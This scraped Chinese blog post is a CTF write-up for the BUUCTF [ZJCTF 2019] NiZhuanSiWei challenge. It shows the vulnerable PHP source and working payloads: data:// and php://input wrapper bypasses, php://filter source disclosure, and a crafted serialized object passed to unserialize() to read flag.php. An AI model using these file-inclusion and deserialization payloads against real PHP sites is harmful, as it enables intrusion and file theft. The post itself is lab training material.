


<!--yml
category: 未分类
date: 2022-04-26 14:39:10
-->

# BUUCTF__[ZJCTF 2019]NiZhuanSiWei_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/107150182](https://blog.csdn.net/TM_1024/article/details/107150182)

## 前言

## 读题

```
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

*   看到有include文件包含，必然是解题的重点，所以先看第一个if，必须先满足它。

*   text不为空，且 file_get_contents() 读取的返回值为 welcome to the zjctf

*   file_get_contents()函数的功能是读取文件内容到一个字符串，但这里没没有一个文件，而是读取的text变量。没查到相关这方面的用法，特别是那个r参数。

*   而如果直接给text赋值 text=welcome to the zjctf 的话，没有回显说明没成功。

*   所以需要用方法绕过它，两种方法

    *   **php://input伪协议**

        *   此协议需要 allow_url_include 为 on ，可以访问请求的原始数据的只读流, 将post请求中的数据作为 PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为 php://input ,同时post想设置的文件内容，php执行时会将post内容当作文件内容。
        *   好像用 HackBar 因为在 post 中没有设置变量不能访问，所以用bp抓包。
        *   看到有回显，可行。
            
    *   **data://伪协议**

*   再看第二个if file不能有flag字符。没啥，往下看。

*   提示了有一个 `useless.php` ，想到之前说的PHP伪协议中的php://filter读取文件。尝试。

    ```
    php://filter/read=convert.base64-encode/resource=useless.php 
    ```

*   所以构造payload，成功回显。

    ```
    ?text=data:text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php 
    ```

    

*   base64解码,成功得到 useless.php 源码。

```
<?php  

class Flag{  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

*   看到有一个 flag.php ,并且file不为空将读取flag.php并显示。所以。构造一个序列化字符串。

```
<?php  

class Flag{  
    public $file=flag.php;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  

$a = new Flag();
$a->file="flag.php";
echo serialize($a); 
```

*   找个在[线运行PHP](https://c.runoob.com/compile/1)的网站，得到

    ```
     O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
    ```

*   最后综合payload

    ```
    ?text=data:text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
    ```

*   这里发现如果file继续用前面伪协议读取的话，后面的 password 会无回显无法得到flag 。需修改为 useless.php。

## 最后